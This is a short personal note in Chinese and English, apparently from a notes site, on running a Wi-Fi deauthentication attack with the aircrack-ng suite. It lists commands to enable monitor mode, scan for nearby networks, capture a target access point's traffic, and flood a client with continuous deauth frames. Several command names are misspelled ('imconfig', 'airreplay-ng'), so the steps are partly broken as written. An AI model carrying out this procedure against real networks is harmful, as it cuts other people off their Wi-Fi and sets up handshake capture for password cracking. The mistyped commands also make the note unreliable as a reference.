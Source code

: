 ```yaml
---
title: aircrack-ng deauth
category: notes
date: 2024-04-01
---
```

首先安装`aircrack-ng`, 我用的是ALFA AWUS036ACH， 支持airmon-ng

1. `imconfig` to confirm no wireless connection
2. `sudo airmon-ng` find your wlan, like `wlan0`
3. `sudo airmon-ng start wlan0`, in this step you might see some other process is using `wlan0`, just kill the process, remeber the wireless card monitor, like `wlan0mon`.
4. `sudo airodump-ng wlan0mon` to scan wifi around, PWE shows signal strength from -1 to some negative numbers, the greater(-1 is the best) the better connection signal.
5. `sudo airodump-ng -c [channel#] -w [file directory] --bssid [found bssid from step 4] wlan0mon` to listen on a targer (your target)
6. `sudo airreplay-ng -0 0 -a [target bssid] -c [fake a client mac from step 5] wlan0mon`


[reference1](https://blog.csdn.net/vevenlcf/article/details/82084633)